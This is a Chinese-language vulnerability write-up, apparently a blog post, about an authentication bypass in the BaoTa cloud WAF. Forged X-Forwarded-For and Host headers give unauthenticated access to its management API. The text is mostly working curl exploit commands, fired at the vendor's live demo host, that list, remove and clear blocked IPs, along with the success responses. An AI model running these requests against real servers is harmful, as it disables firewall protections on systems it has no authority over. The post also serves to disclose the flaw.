 这段代码位于 /cloud_waf/nginx/conf.d/waf/public/waf_route.lua 文件中，源文件是 luajit 编译后的内容，反编译一下即可看到源码。  
  
看代码最开端的 if 语句，只要满足 ip 是 127.0.0.1 ，域名是 127.0.0.251 这两个条件就能在不用登录的情况下访问下面的 API 。  
  
话说这是临时工写的代码吧，对于宝塔的配置来说，要满足这两个条件很难吗？  
  
配置 x-forwarded-for 头为 127.0.0.1 即可满足 ip 是 127.0.0.1 的条件
配置 host 头为 127.0.0.251 即可满足域名是 127.0.0.251 的条件
提供一条 curl 参数供大家参考  
```
curl 'http://宝塔地址/API'  -H 'X-Forwarded-For: 127.0.0.1' -H 'Host: 127.0.0.251'

```  
  
到此漏洞原理就讲完了  
  
我们访问宝塔官方网站做个测试  
  
**get_btwaf_drop_ip**  
  
这个 API 用来获取已经拉黑的 IP 列表，使用以下命令发起访问  
```
curl 'http://btwaf-demo.bt.cn/get_btwaf_drop_ip'  -H 'X-Forwarded-For: 127.0.0.1' -H 'Host: 127.0.0.251'

```  
  
**remove_btwaf_drop_ip**  
  
这个 API 用来解封 IP ，提供一个 get 参数即可，使用以下命令发起访问  
```
curl 'http://btwaf-demo.bt.cn/remove_btwaf_drop_ip?ip=1.2.3.4'  -H 'X-Forwarded-For: 127.0.0.1' -H 'Host: 127.0.0.251'

```  
  
响应如下  
```
{"msg":"1.2.3.4 已解封","status":true}

```  
  
**clean_btwaf_drop_ip**  
  
这个 API 用来解封所有 IP ，使用以下命令发起访问  
```
curl 'http://btwaf-demo.bt.cn/clean_btwaf_drop_ip'  -H 'X-Forwarded-For: 127.0.0.1' -H 'Host: 127.0.0.251'

```  
  
响应如下  
```
{"msg":"已解封所有 IP","status":true}

```  
  
**updateinfo**  
  
这个 API 看起来是更新配置用的，需要一个 types 参数做校验，但实际并没有什么用处，使用以下命令发起访问  
```
curl 'http://btwaf-demo.bt.cn/updateinfo?types'  -H 'X-Forwarded-For: 127.0.0.1' -H 'Host: 127.0.0.251'

```  
  